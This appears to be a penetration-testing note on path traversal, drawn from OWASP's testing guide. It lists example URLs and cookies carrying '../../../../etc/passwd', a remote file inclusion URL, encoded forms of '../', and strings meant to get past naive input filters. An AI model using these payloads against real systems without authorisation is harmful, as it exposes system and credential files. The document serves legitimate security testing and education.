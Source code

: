 # Path Traversal

## Step 1 Identify parameters

Identify:

* any request parameters that could be used for file-related operations

`http://example.com/getUserProfile.jsp?item=ikki.html`

* any unusual file extensions

`http://example.com/main.cgi?home=index.htm`

* any interesting variable names

`http://example.com/index.php?file=content`

* cookie used by web application for the dynamic generation of pages 

`Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`

## Step 2 Insert malicious string

For example, for Linux/UNIX, we can insert `../../../../etc/passwd`

`http://example.com/getUserProfile.jsp?item=../../../../etc/passwd`

Cookie example: `Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd`

Includes files and scripts from external website \(remote file inclusion\):

`http://example.com/index.php?file=http://www.owasp.org/malicioustxt`

To show the source code of a CGI component `http://example.com/main.cgi?home=main.cgi`

## Encoding

URL encode \(once\) Linux

> %2e%2e%2f = ../ %2e%2e/ = ../ ..%2f = ../

Windows:

> %2e%2e%5c = .. %2e%2e = .. ..%5c = ..\

URL encode \(double\) Windows

> %252e%252e%255c = .. ..%255c = ..\

Unicode/UTF-8 Encoding

> ..%c0%af = ../ ..%c1%9c = ..\

## OS/application consideration

Different OS/APIs have different behavior in the parsing of file paths

Source: [https://www.owasp.org/index.php/Testing\_Directory\_traversal/file\_include\_\(OTG-AUTHZ-001\)](https://www.owasp.org/index.php/Testing_Directory_traversal/file_include_%28OTG-AUTHZ-001%29)

## Bypass input validation

Below code will replace ../ from the request

```php
filename = Request.QueryString(“file”); 
Replace(filename, “/”,”\”); 
Replace(filename, “..\”,””);
```

Below strings can be used to test for the flaws

```text
file=....//....//boot.ini 
file=....\\....\\boot.ini 
file= ..\..\boot.ini
```

